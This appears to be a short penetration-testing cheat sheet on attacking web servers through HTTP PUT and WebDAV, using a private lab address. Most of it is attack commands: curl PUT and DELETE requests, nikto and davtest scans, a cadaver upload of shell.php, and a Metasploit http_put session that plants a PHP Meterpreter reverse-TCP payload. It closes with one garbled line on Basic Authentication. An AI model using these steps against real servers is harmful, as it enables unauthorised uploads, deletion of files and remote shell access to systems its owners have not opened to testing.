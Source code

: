 	# curl -X PUT 192.168.1.100/uploads

	# curl -X DELETE 192.168.1.100

	# curl 192.168.1.100/uploads --upload-file demo.txt

	# curl -I 192.168.1.100

## nikto 

	# nikto -h 192.168.1.100
	
## davtest

	# davtest --help

	# davtest -url http://192.168.1.100/dav/

## cadaver

	# cadaver --help

	# cadaver http://192.168.1.100/dav/
		put /dev/shm/shell.php

	# msfconsole
		msf> use auxiliary/scanner/http/http_put
		msf>auxiliary (http_put) > set rhosts 192.168.1.100
		msf>auxiliary (http_put) > set payload php/meterpreter/reverse_tcp
		msf>auxiliary (http_put) > set path /dav/
		msf>auxiliary (http_put) > set filename meter.php
		msf>auxiliary (http_put) > set filedata file://root/Desktop/meter.php
		msf>auxiliary (http_put) > exploit

## HTTP Basic Authentication

HTTP Basic Authentication implementation is the tehnique for enforce access control of the web server from unauthorised access, It doesn't required cookies.
